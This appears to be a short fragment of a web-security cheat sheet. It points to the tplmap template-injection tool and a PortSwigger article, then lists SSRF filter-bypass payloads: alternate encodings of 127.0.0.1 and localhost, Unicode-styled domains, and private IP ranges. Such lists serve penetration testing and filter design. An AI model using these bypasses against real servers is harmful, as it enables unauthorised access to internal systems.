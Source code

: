 ## Tool
- https://github.com/epinna/tplmap

---

http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1 

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]

```

## Bypass using Ⓐ Ⓑ Ⓒ Ⓓ

- `http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ`
- `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`

## 内网IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`
